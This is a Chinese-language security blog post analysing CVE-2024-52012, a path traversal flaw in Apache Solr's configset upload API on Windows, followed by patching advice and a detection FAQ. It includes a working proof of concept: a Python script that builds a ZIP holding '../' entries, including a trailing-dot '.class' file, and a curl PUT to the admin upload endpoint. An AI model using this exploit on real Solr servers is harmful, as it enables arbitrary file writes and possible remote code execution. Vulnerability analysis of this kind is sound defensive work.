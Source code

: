#  Solr 文件上传路径遍历漏洞（CVE-2024-52012）分析漏洞成因   
原创 安全圈我最菜wu  安全圈我最菜wu   2025-02-07 16:24  
  
该漏洞影响运行于 Windows 系统 的 Solr 实例，核心问题在于其  configset 上传 API  对上传的 ZIP 文件未进行严格的路径合法性校验。攻击者可通过构造包含 相对路径（如  ../ ） 的恶意 ZIP 文件，将文件写入系统任意位置（如上级目录或系统关键路径）。由于 Windows 对文件路径解析的某些特性（如自动处理末尾的 . ），此类路径遍历攻击在 Windows 环境下更易实现。  
  
影响范围  
  
	●	受影响的版本: Solr 6.6 至 9.7.0  
  
	●	风险场景: 攻击者可覆盖系统文件、植入恶意代码（如  .class  文件导致 RCE）或破坏应用数据。  
  
漏洞复现步骤详解  
  
1. 生成恶意 ZIP 文件  
  
使用以下 Python 脚本创建包含路径遍历文件的 ZIP：  
  
import zipfile   
  
  
with zipfile.ZipFile('exploit.zip', 'w') as zipf:  
  
    zipf.writestr("0.txt", "正常文件内容")  # 伪装文件   
  
    zipf.writestr("../a.txt", "写入上级目录的文本文件")   
  
    zipf.writestr("../a.class.", "恶意类文件（末尾点绕过检查）")  # Windows 可能自动去除末尾点  
  
2. 发送恶意请求  
  
向目标 Solr 实例发送 PUT 请求 上传 ZIP：  
  
curl -X PUT "http://<target>:8983/solr/admin/configs?action=UPLOAD&name=exploit_config&file=exploit.zip"  
  
	●	关键参数:  
  
	●	 action=UPLOAD : 触发配置集上传。  
  
	●	 name=exploit_config : 指定新配置集名称。  
  
	●	 file=exploit.zip : 恶意 ZIP 文件。  
  
3. 验证攻击结果  
  
	●	检查文件系统：确认在 Solr 安装目录的上级目录中生成  a.txt  和  a.class （Windows 可能自动去除文件名末尾的点）。  
  
	●	日志分析：查看 Solr 日志中是否有异常上传记录。  
  
修复建议  
  
	1.	升级至安全版本: 官方已修复版本 Solr 9.8.0。  
  
	2.	临时缓解措施:  
  
	●	限制 API 访问: 使用 Solr 的  基于规则的认证插件 ，仅允许受信任的管理员访问  /admin/configs  接口。  
  
	●	文件系统权限: 限制 Solr 进程的写入权限，避免其修改系统关键目录。  
  
	3.	安全监控: 部署文件完整性检查工具，监控异常文件创建行为。  
  
FAQ  
  
Q1: Linux 系统是否受影响？  
  
	●	根据漏洞描述，该漏洞主要针对 Windows 环境。Linux 系统可能因路径处理机制不同而天然防御此类攻击，但仍建议升级以彻底消除风险。  
  
Q2: 如何检测是否被利用？  
  
	●	检查 Solr 日志中异常的  UPLOAD  操作记录。  
  
	●	搜索文件系统中非常规位置的  .txt  或  .class  文件（如 Solr 安装目录外的  a.txt ）。  
  
Q3: 攻击者可能利用此漏洞做什么？  
  
	●	覆盖系统文件导致服务瘫痪。  
  
	●	植入恶意类文件（ .class ）实现远程代码执行（RCE）。  
  
	●	泄露敏感数据（通过写入后读取）。  
  
Q4: 为何 ZIP 中的文件名使用  ../a.class. ？  
  
	●	Windows 允许文件名末尾包含点，但某些处理逻辑会忽略该点，使文件实际保存为  .class ，可能绕过文件类型检查。  
  
通过以上分析，用户应优先升级 Solr 版本，并严格控制敏感 API 的访问权限，同时加强文件系统的监控与防护措施。  
  
  
